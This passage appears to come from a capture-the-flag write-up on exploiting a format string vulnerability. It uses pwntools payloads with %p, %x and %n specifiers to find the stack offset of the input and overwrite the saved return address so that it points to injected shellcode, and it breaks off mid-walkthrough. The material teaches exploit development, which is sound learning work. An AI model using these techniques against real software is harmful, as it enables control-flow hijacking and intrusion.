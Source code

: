 ![](https://i.imgur.com/epCDCLb.png)

Again in gdb, printing off the stack we see that the saved RIP is on the stack 0x108 bytes after our shellcode.

![](https://i.imgur.com/BtCzR2q.png)

We can add a print statement to our code print the address that points to our saved RIP.

```python=
saved_rip = leak+0x108
print "Address of saved rip", hex(saved_rip)
```

### Overwrite the saved instruction pointer to point to our shellcode

Typically, when writing an exploit involving a format strings vulnerability, I try to use pwntools's [fmtstr_payload](https://docs.pwntools.com/en/stable/fmtstr.html). For this challenge, I chose to do it by hand. To do this we will take advantage of the [format specifier "%n"](https://www.geeksforgeeks.org/g-fact-31/). The "%n" writes the number of bytes that were printed to a given location.

We first need to determine the offset of our input, to get the general location we can use the following code:

```python=
overwrite_payload = "A"*8
overwrite_payload += "%p."*10
io.sendlineafter("> ",overwrite_payload)
```
The output shows that the "A"s are the 6th pointer on the stack.

![](https://i.imgur.com/6ScomLZ.png)

As mentioned earlier, to control what we write, we need to control the number of bytes that get printed before the %n. We can use "%x" to choose how many bytes with the following code:

```python=
overwrite_payload = "%100x"
overwrite_payload += "%6$p"
overwrite_payload += "A"*8
io.sendlineafter("> ",overwrite_payload)
```

In this example we place 100 spaces and then print the 6th pointer off the stack, which hopefully would be our "A"s. But because we added to our payload our "A"'s will no longer be the 6th pointer off the stack. Lets see what it looks like if it was the 7th pointer off the stack using the code below.

```python=
overwrite_payload = "%100x"
overwrite_payload += "%7$p"
overwrite_payload += "A"*8
io.sendlineafter("> ",overwrite_payload)
```
![](https://i.imgur.com/fkf6akA.png)
